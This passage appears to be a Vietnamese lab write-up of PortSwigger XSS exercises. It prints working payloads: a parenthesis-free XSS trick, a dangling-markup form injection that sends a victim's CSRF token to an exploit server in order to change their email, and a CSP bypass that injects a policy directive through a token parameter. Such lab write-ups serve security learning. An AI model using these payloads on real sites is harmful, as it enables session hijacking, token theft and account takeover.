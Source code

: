 ![image](https://hackmd.io/_uploads/rJHvbz-Ple.png)

Có vẻ là nó đóng được chuỗi nhưng đã bị filter mất `()` nên mình truyền payload như sau: 
`&%27}x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',{x:'`
Lúc đó payload nó sẽ thành: `javascript:fetch('/analytics', {method:'post',body:'/post/postId=2'}x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',{x:''}).finally(_=> window.location = '/')` 

## LAB29 - Reflected XSS được bảo vệ bởi CSP rất nghiêm ngặt, kết hợp với dangling markup attack 

Lab này yêu cầu thực hiện reflected xss và bypass được CSP và trích CSRF token của nạn nhân. Sau đó, đổi email nạn nhân thành hacker@evil-user.net.

![image](https://hackmd.io/_uploads/rJbA_MZDge.png)

Ở phần `value=""` sẽ nhận dữ liệu từ tham số `email` 

![image](https://hackmd.io/_uploads/ByJHYGZvex.png)

Nên mình sẽ truyền payload đóng chuỗi như sau: `"></form><form class="login-form" name="change-email-form" action="https://EXPLOIT-SERVER-ID.exploit-server.net/log" method="GET"><button class="button" type="submit">Click me</button>`

Từ đây, mình gửi nó đến nạn nhân như sau: 

![image](https://hackmd.io/_uploads/B1WS2z-Peg.png)

Đầu tiên là mình stored payload này lại. 

Và sau đó, mình view exploit 

![image](https://hackmd.io/_uploads/r1SwhG-Dgx.png)

Cuối cùng, gửi cho nạn nhân. Thì sau đó, mình nhận được 1 phản hồi có chứa csrf token 

![image](https://hackmd.io/_uploads/By8dTG-Dge.png)

Để mà sửa lại được email thì thực hiện lại payload như sau: 

![image](https://hackmd.io/_uploads/By1JRzWvex.png)

## LAB30 - Reflected XSS được bảo vệ bằng CSP và bypass CSP 

Ở lab này khi mình tìm kiếm 1 với payload XSS `<script>alert(origin)</script>` thì sẽ nhận được csp-report như sau: 

![image](https://hackmd.io/_uploads/SycFJQZDll.png)

Thì giải thích cho cái header này như sau: 

![image](https://hackmd.io/_uploads/Bk3SlQbPgl.png)

Vì trong header có report uri là `/csp-report?token=` cho nên mình vẫn có thể đóng lại và thêm chính sách cho payload mình hoạt động.

`/?token=;script-src-elem 'unsafe-inline'&search=<script>alert(document.domain)</script>`

![image](https://hackmd.io/_uploads/By6Q-7ZDxl.png)

![image](https://hackmd.io/_uploads/HJhUz7bPlx.png)

